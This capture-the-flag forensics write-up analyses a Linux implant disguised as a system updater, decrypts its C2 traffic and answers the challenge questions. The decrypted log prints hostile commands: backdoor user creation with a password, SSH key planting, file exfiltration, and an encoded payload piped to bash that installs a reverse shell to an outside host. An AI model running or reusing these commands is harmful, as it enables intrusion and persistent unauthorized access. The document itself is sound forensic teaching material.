# The Ash-Binder Signature

## Scenario

In a winter-bound frontier, Elowen Ashglass, a residue-seer trained to read truth in ash and trace, investigates a village that vanished without violence. Homes stand intact, doors sealed, and no signs of struggle remain. The only traces are measured footsteps and foreign ash inconsistent with local hearthwood. Within the chapel, residues of tar-oil and bone-lime reveal a prepared binder, not the product of fire but of design. These elements point to a controlled extraction staged to resemble a raid, likely intended to provoke retaliation and fracture alliances. Our internal perimeter was breached. Can you help Elowen understand what happened?

## Given artifact

A packet capture file and a UAC (unix-like artifacts collector) `.tar` archive

> **What is UAC?**
> **UAC (Unix-like Artifacts Collector)** is an open-source, automated live response and incident triage tool designed for Unix systems. It allows responders to rapidly collect volatile data and forensic artifacts from a running host. Because it is written in shell script and relies entirely on native target binaries, it requires no installation and leaves a minimal forensic footprint.
> 
> **Centralized Artifacts Generated by UAC**
> Instead of just copying raw system files, UAC aggregates the live system state into several centralized, tool-generated triage artifacts:
> * **`uac.log`**: A chronological execution log detailing every command run by the tool, used to maintain the forensic chain of custody.
> * **`uac_bodyfile.txt`**: A master timeline file containing MACB (Modified, Accessed, Created, Born) filesystem timestamps formatted for The Sleuth Kit.
> * **`hash_list.txt`**: A centralized cryptographic manifest (MD5/SHA) of all collected files to ensure data integrity.
> * **`live_response/` output**: A dedicated folder centralizing text snapshots of volatile data, including running processes, active network connections (`ss`/`netstat`), and open files (`lsof`).
> * **`system_profiles/` summaries**: Consolidated metadata files capturing the exact OS version, kernel release, uptime, and loaded kernel modules (`lsmod`).

## Answering questions

### 1. Which is the compromised system user that the attacker used? Specify the primary group it belongs to (e.g. username:group)

```text
lehie@MSI:/mnt/c/CTF_Workspace/HTB Cyber Apocalypse CTF 2026/The Ash-Binder Signature (medium)/uac_extracted/[root]/home$ ls
aerongreywater  caldrinvowmark    garranvoss      lysaharrowmere  seralynelyrisse  veylenmarr
alyssquiet      cassianvaultrune  keirunderbelly  rinkagetsura    sythracroweater
astraeldrake    damasmarrowcairn  kingmaelor      rovankest       usr
```

There are quite many users here, and their `.bash_history` are all wiped out so I cannot deduce malicious action here. Let's try to inspect running process, this is my first inspection when receiving a memory dump or centralized artifacts like this.

Look at `live_responses/process/psauxwww.txt`:



We see only one active user other than `root` here, take a closer look, a non-root user runs some kind of "system updater" ? That doesn't seem true...

Look at `/etc/passwd` for his group ID:



Then look for that ID in `/etc/group`:



**Answer: kingmaelor:crownspire**

### 2. The attacker implanted a malicious binary on the system, which is the full path? (e.g. /opt/binaryname)

The aforementioned "system updater" is definitely the malicious binary

**Answer: /srv/AshShare/linux_sys_updater**

### 3. A custom traffic encryption logic is used, which is the Key used in AES? Specify it using MD5 hash of the value (e.g. 098f6bcd4621d373cade4e832627b4f6)

I try to decompile it directly with `ghidra`, however, it yields unreadable code, this makes me think that the exe may have been packed or compiled with some software. Submitting to VirusTotal gives nothing valuable, due to the recent release of this challenge, there isn't any comprehensive report yet.

Then I manually check for packer/compiler's signature, and it turns out to be `pyinstaller`:



Use `pyinstxtractor.py` to get compiled `.pyc` file, as `pycdc` cannot fully recover the readable python code, I use `pylingual.io` the web instead.



`client.pyc` turns out to be the main program, let's see what it tries to do:







And here comes the main dish:



At the beginning of the main client, we can see the IP and port of the C2 server, it then gives the victim an ID with prefix `ASH_CLI_`, sends a beacon message to the server, if the received packet is `CHALLENGE` then it sends `CHALLENGE_RESPONSE` to finish authentication. Next is the list of supported command:



Well we went very far from merely answering this question, we know how the AES key is constructed from the above code, let's get its MD5 hash:

```python
    import hashlib
    X7wR9t = 'ZQLJlA8BYg0iy1qFH0PwpB8tn8Y2DX0j'
    Mn7kL1 = hashlib.sha256(X7wR9t.encode()).digest()
    Rt9wZ3 = hashlib.sha256(Mn7kL1 + b'encryption').digest()[:32]  # The 32-byte AES key
    aes_key_md5 = hashlib.md5(Rt9wZ3).hexdigest()
    print(f"AES Key (Hex):      {Rt9wZ3.hex()}")
    print(f"AES Key MD5 Hash:  {aes_key_md5}")
```

**Answer: 6ffc06ff97ec037753feda5354b650b3**

### 4. A custom prefix is used in client ID generation, which is it? (e.g. CLIENT_PREFIX)

Already unveiled from the client code

**Answer: ASH_CLI_**

### 5. Which is the custom command that initiates file upload? (e.g. CUSTOM_CMD)

**Answer: UPLD_FILE**

### 6. Which is the variable name that stores the output of the command execute on the system? (e.g. aG6HaQ)

From the function:

```python
    def Ve8sB7(Hj5tC1):
        try:
            Kd3uD9 = subprocess.check_output(Hj5tC1, shell=True, stderr=subprocess.STDOUT, timeout=10)
            return Kd3uD9.decode()
        except:
            return 'Failed'
```

**Answer: Kd3uD9**

### 7. Which is the second executed command in the encrypted reverse shell session? (e.g. whoami)

Now we need to inspect the packet capture file:



Note that we only care about traffic to port 443 of the C2 server as described in the `client.py`, other traffic is unrelated.

First I extract related traffic from the pcap (I use `tr` to remove newline and return carriage)

```bash
tshark -r capture.pcap -Y "ip.src==10.10.0.56 and tcp.port==443" -T fields -e tcp.payload | tr -d '\n\r' > server_to_client.hex
tshark -r capture.pcap -Y "ip.src==10.10.0.10 and tcp.port==443" -T fields -e tcp.payload | tr -d '\n\r' > client_to_server.hex
```

Then I use this script to decrypt traffic, following the logic from `client.py`:

```python
import base64
import hashlib
import struct
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

secret_key='ZQLJlA8BYg0iy1qFH0PwpB8tn8Y2DX0j'
skey_hash=hashlib.sha256(secret_key.encode()).digest()
aes_key=hashlib.sha256(skey_hash+b'encryption').digest()[:32]
hmac_key=hashlib.sha256(skey_hash+b'hmac').digest()[:32]

def decrypt_message(ciphertext):
    try:
        data=base64.b64decode(ciphertext)
        iv=data[:16]
        ciphertext=data[16:-32]
        hmac=data[-32:]

        expected_hmac=hashlib.new('sha256', hmac_key + iv + ciphertext).digest()
        if expected_hmac != hmac:
            raise ValueError("HMAC verification failed")
        cipher=AES.new(aes_key, AES.MODE_CBC, iv)
        return unpad(cipher.decrypt(ciphertext), AES.block_size).decode('utf-8')
    except Exception as e:
        print(f"Decryption failed: {e}")
        return None

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 decrypt.py <hex_file>")
        sys.exit(1)

    with open(sys.argv[1], 'r') as f:
        hex_data=f.read().strip()

    stream_bytes=bytes.fromhex(hex_data)
    offset=0
    total_len=len(stream_bytes)
    while offset < total_len:
        if total_len-offset>4: # read 4-byte big-endian packet length header
            length=struct.unpack('>I', stream_bytes[offset:offset+4])[0]
            offset+=4
            if total_len-offset<length:
                print("Stream truncated or corrupted")
            b64_payload=stream_bytes[offset:offset+length]
            offset+=length
            print(decrypt_message(b64_payload.decode('utf-8')))
if __name__ == "__main__":
    main()
```

Here is the result of decrypting traffic from server to client:

```text
lehie@MSI:/mnt/c/CTF_Workspace/HTB Cyber Apocalypse CTF 2026/The Ash-Binder Signature (medium)$ python3 decrypt.py server_to_client.hex
CHALLENGE
DWNL_FILE /etc/ssh/sshd_config
DWNL_ACK
DWNL_FILE /etc/hosts
DWNL_ACK
UPLD_FILE /home/kingmaelor/.ssh/authorized_keys
UPLD_DATA c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSU5UNkFITEZKT2h0R2t2NVllRjJ4Z3A1R0NkREJBeVdDSUJTeHBOVEtnNDAgYXNoQHRlYW0uaHRi
CMD uname -a
CMD ls -la /etc
CMD id
CMD sudo -l
CMD sudo useradd -m -s /bin/bash backup_usr && echo 'backup_usr:9cq3jPVN6Me1' | sudo chpasswd
CMD cat /etc/passwd | grep -i backup_usr
CMD env
CMD echo 'H4sIABLFDWoA/5XNQQ7CIBBG4av8K7owMJ20uuQuCBOHFKSBxujtGy9g4gG+9+qWcofdQdqq0JafjxqktE6utBgKDQ1dYAwkasN0D0NhM7wBJXnREXfilR3P7G6rW+i6YPaGJ/jfSXLjMw6pyaqUXfp3EbW2hMv7P3kCreFnE8MAAAA=' | base64 -d | gunzip | bash
```

So the first executed command is `uname -a`, the second is `ls -la /etc`

**Answer: ls -la /etc**

### 8. Which is the second downloaded file in the encrypted reverse shell session? (e.g. /etc/timezone)

That can be seen from the above result

**ANswer: /etc/hosts**

### 9. The attacker created a new user for persistence. Which credentials has been set? (e.g. username:password)

That can be observed in the `useradd` command above

**Answer: backup_usr:9cq3jPVN6Me1**

### 10. The attacker wrote something into a specific file to maintain persistence. What is the full path? (e.g. /path/file)

Have a look at the last command executed, the bash script has been base64-encoded and gunzip compressed, let's use cyberchef to handle it:



The script create a reverse shell, enable execution and write it to a file in the compromised user's home folder

**Answer: /home/kingmaelor/.local/share/.systemd-helper**

### 11. In the same file the attacker placed a reverse shell invocation. What are the remote IP and port? (e.g. 10.10.10.0:4444)

Can be seen from the bash script above

**Answer: 141.101.64.3:53**

So we don't need the traffic from client to server to answer any question, but I will place it here if you want to read:

```text
lehie@MSI:/mnt/c/CTF_Workspace/HTB Cyber Apocalypse CTF 2026/The Ash-Binder Signature (medium)$ python3 decrypt.py client_to_server.hex
BEACON ASH_CLI_nxpgkxxdatxrcbvkeqby 1779476072.6410902
CHALLENGE_RESPONSE
DWNL_DATA CiMgVGhpcyBpcyB0aGUgc3NoZCBzZXJ2ZXIgc3lzdGVtLXdpZGUgY29uZmlndXJhdGlvbiBmaWxlLiAgU2VlCiMgc3NoZF9jb25maWcoNSkgZm9yIG1vcmUgaW5mb3JtYXRpb24uCgojIFRoaXMgc3NoZCB3YXMgY29tcGlsZWQgd2l0aCBQQVRIPS91c3IvbG9jYWwvYmluOi91c3IvYmluOi9iaW46L3Vzci9nYW1lcwoKIyBUaGUgc3RyYXRlZ3kgdXNlZCBmb3Igb3B0aW9ucyBpbiB0aGUgZGVmYXVsdCBzc2hkX2NvbmZpZyBzaGlwcGVkIHdpdGgKIyBPcGVuU1NIIGlzIHRvIHNwZWNpZnkgb3B0aW9ucyB3aXRoIHRoZWlyIGRlZmF1bHQgdmFsdWUgd2hlcmUKIyBwb3NzaWJsZSwgYnV0IGxlYXZlIHRoZW0gY29tbWVudGVkLiAgVW5jb21tZW50ZWQgb3B0aW9ucyBvdmVycmlkZSB0aGUKIyBkZWZhdWx0IHZhbHVlLgoKSW5jbHVkZSAvZXRjL3NzaC9zc2hkX2NvbmZpZy5kLyouY29uZgoKI1BvcnQgMjIKI0FkZHJlc3NGYW1pbHkgYW55CiNMaXN0ZW5BZGRyZXNzIDAuMC4wLjAKI0xpc3RlbkFkZHJlc3MgOjoKCiNIb3N0S2V5IC9ldGMvc3NoL3NzaF9ob3N0X3JzYV9rZXkKI0hvc3RLZXkgL2V0Yy9zc2gvc3NoX2hvc3RfZWNkc2Ffa2V5CiNIb3N0S2V5IC9ldGMvc3NoL3NzaF9ob3N0X2VkMjU1MTlfa2V5CgojIENpcGhlcnMgYW5kIGtleWluZwojUmVrZXlMaW1pdCBkZWZhdWx0IG5vbmUKCiMgTG9nZ2luZwojU3lzbG9nRmFjaWxpdHkgQVVUSAojTG9nTGV2ZWwgSU5GTwoKIyBBdXRoZW50aWNhdGlvbjoKCiNMb2dpbkdyYWNlVGltZSAybQpQZXJtaXRSb290TG9naW4geWVzCiNTdHJpY3RNb2RlcyB5ZXMKI01heEF1dGhUcmllcyA2CiNNYXhTZXNzaW9ucyAxMAoKI1B1YmtleUF1dGhlbnRpY2F0aW9uIHllcwoKIyBFeHBlY3QgLnNzaC9hdXRob3JpemVkX2tleXMyIHRvIGJlIGRpc3JlZ2FyZGVkIGJ5IGRlZmF1bHQgaW4gZnV0dXJlLgojQXV0aG9yaXplZEtleXNGaWxlCS5zc2gvYXV0aG9yaXplZF9rZXlzIC5zc2gvYXV0aG9yaXplZF9rZXlzMgoKI0F1dGhvcml6ZWRQcmluY2lwYWxzRmlsZSBub25lCgojQXV0aG9yaXplZEtleXNDb21tYW5kIG5vbmUKI0F1dGhvcml6ZWRLZXlzQ29tbWFuZFVzZXIgbm9ib2R5CgojIEZvciB0aGlzIHRvIHdvcmsgeW91IHdpbGwgYWxzbyBuZWVkIGhvc3Qga2V5cyBpbiAvZXRjL3NzaC9zc2hfa25vd25faG9zdHMKI0hvc3RiYXNlZEF1dGhlbnRpY2F0aW9uIG5vCiMgQ2hhbmdlIHRvIHllcyBpZiB5b3UgZG9uJ3QgdHJ1c3Qgfi8uc3NoL2tub3duX2hvc3RzIGZvcgojIEhvc3RiYXNlZEF1dGhlbnRpY2F0aW9uCiNJZ25vcmVVc2VyS25vd25Ib3N0cyBubwojIERvbid0IHJlYWQgdGhlIHVzZXIncyB+Ly5yaG9zdHMgYW5kIH4vLnNob3N0cyBmaWxlcwojSWdub3JlUmhvc3RzIHllcwoKIyBUbyBkaXNhYmxlIHR1bm5lbGVkIGNsZWFyIHRleHQgcGFzc3dvcmRzLCBjaGFuZ2UgdG8gIm5vIiBoZXJlIQojUGFzc3dvcmRBdXRoZW50aWNhdGlvbiB5ZXMKI1Blcm1pdEVtcHR5UGFzc3dvcmRzIG5vCgojIENoYW5nZSB0byAieWVzIiB0byBlbmFibGUga2V5Ym9hcmQtaW50ZXJhY3RpdmUgYXV0aGVudGljYXRpb24uICBEZXBlbmRpbmcgb24KIyB0aGUgc3lzdGVtJ3MgY29uZmlndXJhdGlvbiwgdGhpcyBtYXkgaW52b2x2ZSBwYXNzd29yZHMsIGNoYWxsZW5nZS1yZXNwb25zZSwKIyBvbmUtdGltZSBwYXNzd29yZHMgb3Igc29tZSBjb21iaW5hdGlvbiBvZiB0aGVzZSBhbmQgb3RoZXIgbWV0aG9kcy4KIyBCZXdhcmUgaXNzdWVzIHdpdGggc29tZSBQQU0gbW9kdWxlcyBhbmQgdGhyZWFkcy4KS2JkSW50ZXJhY3RpdmVBdXRoZW50aWNhdGlvbiBubwoKIyBLZXJiZXJvcyBvcHRpb25zCiNLZXJiZXJvc0F1dGhlbnRpY2F0aW9uIG5vCiNLZXJiZXJvc09yTG9jYWxQYXNzd2QgeWVzCiNLZXJiZXJvc1RpY2tldENsZWFudXAgeWVzCiNLZXJiZXJvc0dldEFGU1Rva2VuIG5vCgojIEdTU0FQSSBvcHRpb25zCiNHU1NBUElBdXRoZW50aWNhdGlvbiBubwojR1NTQVBJQ2xlYW51cENyZWRlbnRpYWxzIHllcwojR1NTQVBJU3RyaWN0QWNjZXB0b3JDaGVjayB5ZXMKI0dTU0FQSUtleUV4Y2hhbmdlIG5vCgojIFNldCB0aGlzIHRvICd5ZXMnIHRvIGVuYWJsZSBQQU0gYXV0aGVudGljYXRpb24sIGFjY291bnQgcHJvY2Vzc2luZywKIyBhbmQgc2Vzc2lvbiBwcm9jZXNzaW5nLiBJZiB0aGlzIGlzIGVuYWJsZWQsIFBBTSBhdXRoZW50aWNhdGlvbiB3aWxsCiMgYmUgYWxsb3dlZCB0aHJvdWdoIHRoZSBLYmRJbnRlcmFjdGl2ZUF1dGhlbnRpY2F0aW9uIGFuZAojIFBhc3N3b3JkQXV0aGVudGljYXRpb24uICBEZXBlbmRpbmcgb24geW91ciBQQU0gY29uZmlndXJhdGlvbiwKIyBQQU0gYXV0aGVudGljYXRpb24gdmlhIEtiZEludGVyYWN0aXZlQXV0aGVudGljYXRpb24gbWF5IGJ5cGFzcwojIHRoZSBzZXR0aW5nIG9mICJQZXJtaXRSb290TG9naW4gcHJvaGliaXQtcGFzc3dvcmQiLgojIElmIHlvdSBqdXN0IHdhbnQgdGhlIFBBTSBhY2NvdW50IGFuZCBzZXNzaW9uIGNoZWNrcyB0byBydW4gd2l0aG91dAojIFBBTSBhdXRoZW50aWNhdGlvbiwgdGhlbiBlbmFibGUgdGhpcyBidXQgc2V0IFBhc3N3b3JkQXV0aGVudGljYXRpb24KIyBhbmQgS2JkSW50ZXJhY3RpdmVBdXRoZW50aWNhdGlvbiB0byAnbm8nLgpVc2VQQU0geWVzCgojQWxsb3dBZ2VudEZvcndhcmRpbmcgeWVzCiNBbGxvd1RjcEZvcndhcmRpbmcgeWVzCiNHYXRld2F5UG9ydHMgbm8KWDExRm9yd2FyZGluZyB5ZXMKI1gxMURpc3BsYXlPZmZzZXQgMTAKI1gxMVVzZUxvY2FsaG9zdCB5ZXMKI1Blcm1pdFRUWSB5ZXMKUHJpbnRNb3RkIG5vCiNQcmludExhc3RMb2cgeWVzCiNUQ1BLZWVwQWxpdmUgeWVzCiNQZXJtaXRVc2VyRW52aXJvbm1lbnQgbm8KI0NvbXByZXNzaW9uIGRlbGF5ZWQKI0NsaWVudEFsaXZlSW50ZXJ2YWwgMAojQ2xpZW50QWxpdmVDb3VudE1heCAzCiNVc2VETlMgbm8KI1BpZEZpbGUgL3J1bi9zc2hkLn